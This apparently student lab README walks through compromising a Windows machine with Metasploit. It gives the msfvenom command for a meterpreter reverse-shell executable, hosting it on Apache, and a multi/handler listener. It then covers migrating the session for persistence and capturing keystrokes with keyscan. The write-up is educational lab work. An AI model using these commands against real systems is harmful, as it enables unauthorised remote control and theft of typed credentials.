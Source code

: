 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/d1355a54-549c-4251-9cb2-ffd8029475d6)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/0fab784a-f98b-4529-b16f-edb051a54cd8)





copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/9f385df1-7ef6-4664-bd71-b40a05cdc9a9)





Start apache server
sudo systemctl apache2 start
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/b75c3b4a-80c0-4488-b2bc-cf32e724221c)





Check the status of apache2
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/35071646-4aff-4177-b96c-2969a7c115e4)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/2c7fc124-656e-45f5-9aec-d375164e90ea)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/be4bb428-a0ff-4176-a41b-450c8582c58e)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/bbb60dfc-9938-4a23-bdfb-c4790d087667)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/7cbb57bb-ad6e-481a-9a41-ee706e5be473)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/06a48691-f75d-40e2-8ff0-9c247cab5780)




keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/Saranyaaav/Compromising-windows-using-Metasploit/assets/144870813/3ad1d31f-f013-4b1f-923a-6625c4e2a0ba)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
